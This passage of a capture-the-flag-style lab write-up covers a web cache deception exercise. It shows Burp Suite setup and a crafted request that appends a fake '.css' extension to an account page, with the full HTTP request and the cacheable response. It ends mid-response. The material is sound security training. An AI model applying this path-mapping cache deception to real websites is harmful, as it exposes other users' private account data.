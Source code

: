 #### Step 2: Setting up Burp Suite 🛠️

To observe all the web traffic, I made sure my Burp Suite proxy was running and my browser was configured to send traffic through it. 
I kept the "Proxy" -> "Intercept" tab open, but I primarily used the "Repeater" tab for more control.

#### Step 3: Discovering the Path Mapping Discrepancy 🕵️‍♀️

This was the crucial discovery phase!
1. I sent a request for my "My Account" page to Burp Repeater. The original URL looked something like:
`https://[LAB-ID].web-security-academy.net/my-account`

2. In Repeater, I modified the URL by adding a fake file extension: `https://[LAB-ID].web-security-academy.net/my-account/anything.css` and I sent this modified request. 

```http
GET /my-account/anything.css HTTP/2
Host: 0aa900e30312d0338073120d00120014.web-security-academy.net
Cookie: session=HmWMGxueimPPRDObXEjOJvo5zr6r82nZ
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

3. The response was really interesting and worth analyzing further.

- See it here:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3824

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Exploiting path mapping for web cache deception</title>
    </head>
    <body>
        <script type="text/javascript" src="/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Exploiting path mapping for web cache deception</h2>
```